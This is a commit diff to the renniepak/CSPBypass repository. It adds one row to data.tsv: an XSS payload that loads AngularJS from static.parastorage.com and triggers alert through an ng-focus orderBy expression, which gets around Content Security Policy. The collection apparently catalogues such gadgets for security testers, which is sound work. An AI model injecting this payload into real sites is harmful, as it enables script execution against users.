

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added static.parastorage.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 72: static.parastorage.com | <body ng-app ng-csp><script src="https://static.parastorage.com/services/third-party/angularjs/1.4.5/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body> | renniepak
```
